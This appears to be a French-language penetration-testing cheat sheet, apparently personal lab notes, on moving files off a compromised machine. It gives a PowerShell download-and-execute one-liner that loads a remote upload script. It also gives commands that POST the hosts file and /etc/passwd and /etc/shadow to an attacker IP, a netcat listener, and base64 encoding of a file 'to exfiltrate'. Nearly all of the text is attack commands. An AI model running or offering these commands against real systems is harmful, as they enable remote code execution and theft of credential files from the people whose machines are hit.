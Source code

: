 ### POWERSHELL

Import du script nécessaire en PowerShell

```powershell
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```

Upload

```powershell
Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts
```

### BASH

Upload de fichiers multiples avec POST request CURL

```shell
curl -X POST https://192.168.49.128/upload -F files=@/etc/passwd -F files=@/etc/shadow --insecure
```


# BASE64 UPLOADS (POST-REQUEST)

## Lancer listener netcat

```sh
nc -lvnp 8000
```

## Convertir le fichier à exfiltrer en Base64

```powershell
$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))
```

## Upload le string Base64

```powershell
Invoke-WebRequest -Uri http://192.168.49.128:8000/ -Method POST -Body $b64
```

## [[DATA TRANSFER#Décoder fichier en base64]]


# SMB UPLOADS

## Partage SMB Impacket -> [[DATA TRANSFER#Créer partage avec Impacket]]
